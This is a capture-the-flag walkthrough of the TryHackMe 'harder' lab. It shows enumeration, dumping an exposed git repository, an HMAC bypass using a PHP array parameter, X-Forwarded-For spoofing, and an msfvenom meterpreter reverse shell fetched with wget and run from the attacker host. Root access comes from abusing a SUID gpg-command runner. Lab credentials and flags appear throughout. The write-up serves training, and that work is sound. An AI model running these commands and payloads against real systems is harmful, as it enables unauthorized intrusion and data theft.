

# harder

Real pentest findings combined

[harder](https://tryhackme.com/room/harder)

## Topic's

- Network Enumeration
- Web Enumeration
- Security Misconfiguration
- Enumeration (Git)
- Code Injection
- Exploiting Crontab
- Abusing SUID/GUID

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Hack your way and try harder

The machine is completely inspired by real world pentest findings. Perhaps you will consider them very challenging but without any rabbit holes. Once you have a shell it is very important to know which underlying linux distribution is used and where certain configurations are located.

Hints to the initial foodhold: Look closely at every request. Re-scan all newly found web services/folders and may use some wordlists from seclists ([https://tools.kali.org/password-attacks/seclists](https://tools.kali.org/password-attacks/seclists)). Read the source with care.

Edit: There is a second way to get root access without using any key...are you able to spot the bug?

```
kali@kali:~/CTFs/tryhackme/harder$ sudo nmap -A -sS -sC -sV -O 10.10.167.77
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-15 17:09 CEST
Nmap scan report for 10.10.167.77
Host is up (0.034s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Error
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/15%OT=22%CT=1%CU=30267%PV=Y%DS=2%DC=T%G=Y%TM=5F8866
OS:56%P=x86_64-pc-linux-gnu)SEQ(SP=FB%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST1
OS:1NW7%O6=M508ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=3F%W=FAF0%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=3F%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=3F%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   33.48 ms 10.8.0.1
2   33.57 ms 10.10.167.77

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.77 seconds
```

[http://10.10.167.77/](http://10.10.167.77/)



```
kali@kali:~/CTFs/tryhackme/harder$ sudo /opt/dirsearch/dirsearch.py -u http://10.10.167.77/ -w /usr/share/wordlists/dirb/common.txt -e html,php

  _|. _ _  _  _  _ _|_    v0.4.0
 (_||| _) (/_(_|| (_| )

Extensions: html, php | HTTP method: GET | Threads: 20 | Wordlist size: 4613

Error Log: /opt/dirsearch/logs/errors-20-10-15_17-12-10.log

Target: http://10.10.167.77/

Output File: /opt/dirsearch/reports/10.10.167.77/_20-10-15_17-12-10.txt

[17:12:10] Starting:
[17:12:23] 200 -    2KB - /index.php
[17:12:30] 200 -    2KB - /php
[17:12:30] 200 -   85KB - /phpinfo.php
[17:12:39] 301 -  169B  - /vendor  ->  http://10.10.167.77:8080/vendor/

Task Completed
```

[http://10.10.167.77/phpinfo.php](http://10.10.167.77/phpinfo.php)

[http://pwd.harder.local/](http://pwd.harder.local/)

`admin:admin`

[http://pwd.harder.local/index.php](http://pwd.harder.local/index.php)

`extra security in place. our source code will be reviewed soon ...`

```
kali@kali:~/CTFs/tryhackme/harder$ sudo /opt/dirsearch/dirsearch.py -u http://pwd.harder.local -E -w /usr/share/wordlists/dirb/common.txt

  _|. _ _  _  _  _ _|_    v0.4.0
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, jspx, html, htm, js | HTTP method: GET | Threads: 20 | Wordlist size: 4613

Error Log: /opt/dirsearch/logs/errors-20-10-15_17-18-44.log

Target: http://pwd.harder.local

Output File: /opt/dirsearch/reports/pwd.harder.local/_20-10-15_17-18-44.txt

[17:18:44] Starting:
[17:18:45] 200 -   23B  - /.git/HEAD
[17:18:50] 200 -   19KB - /index.php

Task Completed

kali@kali:~/CTFs/tryhackme/harder$ /opt/git-dumper/git-dumper.py http://pwd.harder.local/.git/ ./git_data
[-] Testing http://pwd.harder.local/.git/HEAD [200]
[-] Testing http://pwd.harder.local/.git/ [403]
[-] Fetching common files
[-] Fetching http://pwd.harder.local/.git/hooks/post-commit.sample [404]
[-] Fetching http://pwd.harder.local/.git/description [200]
[-] Fetching http://pwd.harder.local/.git/hooks/post-receive.sample [404]
[-] Fetching http://pwd.harder.local/.git/COMMIT_EDITMSG [200]
[-] Fetching http://pwd.harder.local/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://pwd.harder.local/.git/hooks/post-update.sample [200]
[-] Fetching http://pwd.harder.local/.git/hooks/commit-msg.sample [200]
[-] Fetching http://pwd.harder.local/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://pwd.harder.local/.gitignore [200]
[-] Fetching http://pwd.harder.local/.git/hooks/pre-commit.sample [200]
[-] Fetching http://pwd.harder.local/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://pwd.harder.local/.git/hooks/pre-receive.sample [200]
[-] Fetching http://pwd.harder.local/.git/hooks/update.sample [200]
[-] Fetching http://pwd.harder.local/.git/index [200]
[-] Fetching http://pwd.harder.local/.git/info/exclude [200]
[-] Fetching http://pwd.harder.local/.git/objects/info/packs [404]
[-] Fetching http://pwd.harder.local/.git/hooks/pre-push.sample [200]
[-] Fetching http://pwd.harder.local/.git/hooks/prepare-commit-msg.sample [200]
[-] Finding refs/
[-] Fetching http://pwd.harder.local/.git/FETCH_HEAD [404]
[-] Fetching http://pwd.harder.local/.git/info/refs [404]
[-] Fetching http://pwd.harder.local/.git/HEAD [200]
[-] Fetching http://pwd.harder.local/.git/logs/refs/remotes/origin/HEAD [404]
[-] Fetching http://pwd.harder.local/.git/logs/refs/remotes/origin/master [404]
[-] Fetching http://pwd.harder.local/.git/logs/refs/stash [404]
[-] Fetching http://pwd.harder.local/.git/logs/refs/heads/master [200]
[-] Fetching http://pwd.harder.local/.git/logs/HEAD [200]
[-] Fetching http://pwd.harder.local/.git/config [200]
[-] Fetching http://pwd.harder.local/.git/ORIG_HEAD [404]
[-] Fetching http://pwd.harder.local/.git/packed-refs [404]
[-] Fetching http://pwd.harder.local/.git/refs/heads/master [200]
[-] Fetching http://pwd.harder.local/.git/refs/remotes/origin/HEAD [404]
[-] Fetching http://pwd.harder.local/.git/refs/remotes/origin/master [404]
[-] Fetching http://pwd.harder.local/.git/refs/stash [404]
[-] Fetching http://pwd.harder.local/.git/refs/wip/wtree/refs/heads/master [404]
[-] Fetching http://pwd.harder.local/.git/refs/wip/index/refs/heads/master [404]
[-] Finding packs
[-] Finding objects
[-] Fetching objects
[-] Fetching http://pwd.harder.local/.git/objects/93/99abe877c92db19e7fc122d2879b470d7d6a58 [200]
[-] Fetching http://pwd.harder.local/.git/objects/6e/1096eae64fede71a78e54999236553b75b3b65 [200]
[-] Fetching http://pwd.harder.local/.git/objects/00/00000000000000000000000000000000000000 [404]
[-] Fetching http://pwd.harder.local/.git/objects/04/7afea4868d8b4ce8e7d6ca9eec9c82e3fe2161 [200]
[-] Fetching http://pwd.harder.local/.git/objects/66/428e37f6bfaac0b42ce66106bee0a5bdf94d4e [200]
[-] Fetching http://pwd.harder.local/.git/objects/22/8694f875f20080e29788d7cc3b626272107462 [200]
[-] Fetching http://pwd.harder.local/.git/objects/cd/a7930579f48816fac740e2404903995e0ff614 [200]
[-] Fetching http://pwd.harder.local/.git/objects/ad/68cc6e2a786c4e671a6a00d6f7066dc1a49fc3 [200]
[-] Fetching http://pwd.harder.local/.git/objects/e3/361e96c0a9db20541033f254df272deeb9dba7 [200]
[-] Fetching http://pwd.harder.local/.git/objects/c6/66164d58b28325393533478750410d6bbdff53 [200]
[-] Fetching http://pwd.harder.local/.git/objects/aa/938abf60c64cdb2d37d699409f77427c1b3826 [200]
[-] Fetching http://pwd.harder.local/.git/objects/be/c719ffb34ca3d424bd170df5f6f37050d8a91c [200]
[-] Running git checkout .
kali@kali:~/CTFs/tryhackme/harder$ cd git_data/
```

```
kali@kali:~/CTFs/tryhackme/harder/git_data$ git log
commit 9399abe877c92db19e7fc122d2879b470d7d6a58 (HEAD -> master)
Author: evs <evs@harder.htb>
Date:   Thu Oct 3 18:12:23 2019 +0300

    add gitignore

commit 047afea4868d8b4ce8e7d6ca9eec9c82e3fe2161
Author: evs <evs@harder.htb>
Date:   Thu Oct 3 18:11:32 2019 +0300

    add extra security

commit ad68cc6e2a786c4e671a6a00d6f7066dc1a49fc3
Author: evs <evs@harder.htb>
Date:   Thu Oct 3 14:00:52 2019 +0300

    added index.php
kali@kali:~/CTFs/tryhackme/harder/git_data$ git checkout .
Updated 0 paths from the index
kali@kali:~/CTFs/tryhackme/harder/git_data$ ls -la
total 48
drwxr-xr-x 3 kali kali  4096 Oct 15 17:20 .
drwxr-xr-x 3 kali kali  4096 Oct 15 17:20 ..
-rw-r--r-- 1 kali kali 23820 Oct 15 17:20 auth.php
drwxr-xr-x 7 kali kali  4096 Oct 15 17:21 .git
-rw-r--r-- 1 kali kali    27 Oct 15 17:20 .gitignore
-rw-r--r-- 1 kali kali   431 Oct 15 17:20 hmac.php
-rw-r--r-- 1 kali kali   608 Oct 15 17:20 index.php
kali@kali:~/CTFs/tryhackme/harder/git_data$ cat .gitignore
credentials.php
secret.php
```

```
kali@kali:~/CTFs/tryhackme/harder/git_data$ cat index.php
```

```php
<?php
  session_start();
  require("auth.php");
  $login = new Login;
  $login->authorize();
  require("hmac.php");
  require("credentials.php");
?>
  <table style="border: 1px solid;">
     <tr>
       <td style="border: 1px solid;">url</td>
       <td style="border: 1px solid;">username</td>
       <td style="border: 1px solid;">password (cleartext)</td>
     </tr>
     <tr>
       <td style="border: 1px solid;"><?php echo $creds[0]; ?></td>
       <td style="border: 1px solid;"><?php echo $creds[1]; ?></td>
       <td style="border: 1px solid;"><?php echo $creds[2]; ?></td>
     </tr>
   </table>
```

```
kali@kali:~/CTFs/tryhackme/harder/git_data$ cat hmac.php
```

```php
<?php
if (empty($_GET['h']) || empty($_GET['host'])) {
   header('HTTP/1.0 400 Bad Request');
   print("missing get parameter");
   die();
}
require("secret.php"); //set $secret var
if (isset($_GET['n'])) {
   $secret = hash_hmac('sha256', $_GET['n'], $secret);
}

$hm = hash_hmac('sha256', $_GET['host'], $secret);
if ($hm !== $_GET['h']){
  header('HTTP/1.0 403 Forbidden');
  print("extra security check failed");
  die();
}
?>
```

[https://www.php.net/manual/en/function.hash-hmac.php](https://www.php.net/manual/en/function.hash-hmac.php)

```php
$hm = hash_hmac('sha256', $_GET['host'], hash_hmac('sha256', $_GET['n'], $secret));
```

[https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up](https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up)

```
kali@kali:~/CTFs/tryhackme/harder/git_data$ php -r "echo hash_hmac('sha256', Array(), 'secret')==false;"
PHP Warning:  hash_hmac() expects parameter 2 to be string, array given in Command line code on line 1

1kali@kali:~/CTFs/tryhackme/harder/git_data$ php -r "echo hash_hmac('sha256', 'pwd.harder.local', false);"
5b622e20b29bdbcb0a4881f1d117d20a33a1f78a3c07ba85645567607e75cedf
```

[http://pwd.harder.local/?n[]=&h=5b622e20b29bdbcb0a4881f1d117d20a33a1f78a3c07ba85645567607e75cedf&host=pwd.harder.local](http://pwd.harder.local/?n[]=&h=5b622e20b29bdbcb0a4881f1d117d20a33a1f78a3c07ba85645567607e75cedf&host=pwd.harder.local)

```
url 	username 	password (cleartext)
http://shell.harder.local 	evs 	9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm
```

[http://shell.harder.local/index.php](http://shell.harder.local/index.php)

`evs:9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm`

`Your IP is not allowed to use this webservice. Only 10.10.10.x is allowed`

```
POST /index.php HTTP/1.1
Host: shell.harder.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://shell.harder.local/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Connection: close
Cookie: PHPSESSID=21sppscro6foikfi7m788f79c0
X-Forwarded-For: 10.10.10.10
Upgrade-Insecure-Requests: 1

action=set_login&user=evs&pass=9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm
```

```
kali@kali:~/CTFs/tryhackme/harder$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.8.106.222 LPORT=4444 -f elf > shell
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
```

`wget http://10.8.106.222/shell`

`chmod +x shell && ./shell`

```
kali@kali:~/CTFs/tryhackme/harder/git_data$ msfconsole -q
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
PAYLOAD => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.106.222:4444
[*] Sending stage (980808 bytes) to 10.10.167.77
[*] Meterpreter session 1 opened (10.8.106.222:4444 -> 10.10.167.77:41304) at 2020-10-15 17:45:59 +0200

meterpreter >
```

```
meterpreter > ls
Listing: /www/shell
===================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  23838  fil   2020-07-08 00:28:59 +0200  auth.php
100644/rw-r--r--  2014   fil   2020-07-08 00:28:59 +0200  index.php
100644/rw-r--r--  275    fil   2020-07-08 00:28:59 +0200  ip.php
100755/rwxr-xr-x  207    fil   2020-10-15 17:46:00 +0200  shell
40755/rwxr-xr-x   4096   dir   2020-07-08 00:28:59 +0200  vendor

meterpreter > cd /home
meterpreter > ls
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
42755/rwxr-xr-x  4096  dir   2020-07-08 00:29:00 +0200  evs
42755/rwxr-xr-x  4096  dir   2020-07-08 00:28:58 +0200  www

meterpreter > cd evs
meterpreter > ls
Listing: /home/evs
==================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  33    fil   2020-07-08 00:29:00 +0200  user.txt

meterpreter > cat user.txt
7e88bf11a579dc5ed66cc798cbe49f76
```

```
meterpreter > shell
Process 589 created.
Channel 2 created.
find / -type f -user www 2>/dev/null
/tmp/sess_1ou7i9pdjsh1kredksf96bvom8
/tmp/sess_6iae3toisuvskm164gri7far5q
/tmp/sess_utu0095om9rr89vk98njrm2t2t
/tmp/sess_21sppscro6foikfi7m788f79c0
/tmp/sess_a2n7kth19jocl47vngge63v79c
/tmp/sess_nu2iuovacqdl1j0lq1n94itk44
/var/lib/nginx/html/50x.html
/var/lib/nginx/html/index.html
/etc/periodic/15min/evs-backup.sh

/www/pwdmanager/credentials.php
/www/pwdmanager/.git/config
/www/pwdmanager/.git/COMMIT_EDITMSG
/www/pwdmanager/.git/logs/refs/heads/master
/www/pwdmanager/.git/logs/HEAD
/www/pwdmanager/.git/index
/www/pwdmanager/.git/description
/www/pwdmanager/.git/refs/heads/master
/www/pwdmanager/.git/info/exclude
/www/pwdmanager/.git/HEAD
/www/pwdmanager/.gitignore
/www/pwdmanager/index.php
/www/pwdmanager/hmac.php
/www/pwdmanager/secret.php
/www/pwdmanager/auth.php
/www/shell/shell
/www/shell/ip.php
/www/shell/index.php
/www/shell/auth.php
```

`/etc/periodic/15min/evs-backup.sh`

```
cat /etc/periodic/15min/evs-backup.sh
#!/bin/ash

# ToDo: create a backup script, that saves the /www directory to our internal server
# for authentication use ssh with user "evs" and password "U6j1brxGqbsUA$pMuIodnb$SZB4$bw14"
```

```
kali@kali:~/CTFs/tryhackme/harder$ ssh evs@10.10.167.77
The authenticity of host '10.10.167.77 (10.10.167.77)' can't be established.
ED25519 key fingerprint is SHA256:qe/uay80+hZjgfhQilcT9xOMMgrAk0nCK7Ng5g7bLMM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.167.77' (ED25519) to the list of known hosts.
evs@10.10.167.77's password:
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.

harder:~$
```

```
harder:~$ find / -type f -user root -perm -u=s 2>/dev/null
/usr/local/bin/execute-crypted
harder:~$ strings /usr/local/bin/execute-crypted
/lib/ld-musl-x86_64.so.1
libc.musl-x86_64.so.1
__stack_chk_fail
_init
asprintf
setuid
_fini
system
__cxa_finalize
free
__libc_start_main
__deregister_frame_info
_ITM_registerTMCloneTable
_ITM_deregisterTMCloneTable
__register_frame_info
u{UH
ATSt
/usr/local/bin/run-crypted.sh %s
/usr/local/bin/run-crypted.sh
;*3$"
GCC: (Alpine 8.3.0) 8.3.0
harder:~$ cat /usr/local/bin/run-crypted.sh
#!/bin/sh

if [ $# -eq 0 ]
  then
    echo -n "[*] Current User: ";
    whoami;
    echo "[-] This program runs only commands which are encypted for root@harder.local using gpg."
    echo "[-] Create a file like this: echo -n whoami > command"
    echo "[-] Encrypt the file and run the command: execute-crypted command.gpg"
  else
    export GNUPGHOME=/root/.gnupg/
    gpg --decrypt --no-verbose "$1" | ash
fi
```

```
harder:~$ /usr/local/bin/execute-crypted
[*] Current User: root
[-] This program runs only commands which are encypted for root@harder.local using gpg.
[-] Create a file like this: echo -n whoami > command
[-] Encrypt the file and run the command: execute-crypted command.gpg
harder:~$ find / -type f -name "root@harder.local*" 2>/dev/null
/var/backup/root@harder.local.pub
harder:~$ cat /var/backup/root@harder.local.pub
-----BEGIN PGP PUBLIC KEY BLOCK-----

mDMEXwTf8RYJKwYBBAHaRw8BAQdAkJtb3UCYvPmb1/JyRPADF0uYjU42h7REPlOK
AbiN88i0IUFkbWluaXN0cmF0b3IgPHJvb3RAaGFyZGVyLmxvY2FsPoiQBBMWCAA4
FiEEb5liHk1ktq/OVuhkyR1mFZRPaHQFAl8E3/ECGwMFCwkIBwIGFQoJCAsCBBYC
AwECHgECF4AACgkQyR1mFZRPaHSt8wD8CvJLt7qyCXuJZdOBPR+X7GI2dUg0DRRu
c5gXzwk3rMMA/0JK6ZwZCHObWjwX0oLc3jvOCgQiIdaPq1WqN9/fhLAKuDgEXwTf
8RIKKwYBBAGXVQEFAQEHQNa/To/VntzySOVdvOCW+iGscTLlnsjOmiGaaWvJG14O
AwEIB4h4BBgWCAAgFiEEb5liHk1ktq/OVuhkyR1mFZRPaHQFAl8E3/ECGwwACgkQ
yR1mFZRPaHTMLQD/cqbV4dMvINa/KxATQDnbaln1Lg0jI9Jie39U44GKRIEBAJyi
+2AO+ERYahiVzkWwTEoUpjDJIv0cP/WVzfTvPk0D
=qaa6
-----END PGP PUBLIC KEY BLOCK-----

harder:~$ gpg --import /var/backup/root@harder.local.pub
gpg: directory '/home/evs/.gnupg' created
gpg: keybox '/home/evs/.gnupg/pubring.kbx' created
gpg: /home/evs/.gnupg/trustdb.gpg: trustdb created
gpg: key C91D6615944F6874: public key "Administrator <root@harder.local>" imported
gpg: Total number processed: 1
gpg:               imported: 1
harder:~$ echo -n "cat /root/root.txt" > command
harder:~$ gpg -r 6F99621E4D64B6AFCE56E864C91D6615944F6874 --encrypt command
gpg: 6C1C04522C049868: There is no assurance this key belongs to the named user

sub  cv25519/6C1C04522C049868 2020-07-07 Administrator <root@harder.local>
 Primary key fingerprint: 6F99 621E 4D64 B6AF CE56  E864 C91D 6615 944F 6874
      Subkey fingerprint: E51F 4262 1DB8 87CB DC36  11CD 6C1C 0452 2C04 9868

It is NOT certain that the key belongs to the person named
in the user ID.  If you *really* know what you are doing,
you may answer the next question with yes.

Use this key anyway? (y/N) y
harder:~$ execute-crypted command.gpg
gpg: encrypted with 256-bit ECDH key, ID 6C1C04522C049868, created 2020-07-07
      "Administrator <root@harder.local>"
3a7bd72672889e0756b09f0566935a6c
```

1. Hack the machine and obtain the user Flag (user.txt)

`7e88bf11a579dc5ed66cc798cbe49f76`

2. Escalate your privileges and get the root Flag (root.txt)

`3a7bd72672889e0756b09f0566935a6c`
